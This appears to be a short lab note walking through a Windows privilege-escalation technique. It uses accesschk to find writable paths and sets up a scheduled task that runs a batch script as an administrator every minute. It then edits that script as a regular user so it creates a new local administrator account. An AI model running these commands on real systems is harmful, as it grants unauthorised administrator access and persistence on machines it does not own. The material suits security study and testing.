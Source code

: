1. Download accesschk - https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
2. Use accesschk to find where is the current user permitted to write to - accesschk.exe -uqws ["username"] C:\*
3. Create a simple bat script thet prints a simple string to a file to indicate successful execution - @echo "This is some text" > C:\Users\user\Desktop\file.txt
4. Create a local admin user:
	net user admin [Password] /add
	net localgroup administrators admin /add
5. Use schtasks to create a scheduled task that will run every minute and execute the script created above with the new admin user cradentials and one with the current user cradentials from cli as admin - SCHTASKS /CREATE /SC MINUTE /MO 1 /TN ["TASK NAME"] /TR ["C:\PATH-TO-SCRIPT"] /RU admin /RP [Password] /RL HIGHEST
6. Wait for the task to run and view the result
7. Use schtasks to list all scheduled tasks and find the task you have just created with regular user privileges:
	schtasks /query
	run as user - schtasks /query /fo LIST /v
	by name - schtasks /query /tn ["task name"] /fo LIST /v
8. Modify the file to add a new user and add him to the local administrators group:
	net user [user] [password] /add
	net localgroup administrators [user] /add
9. Log in with the new user and check the premissions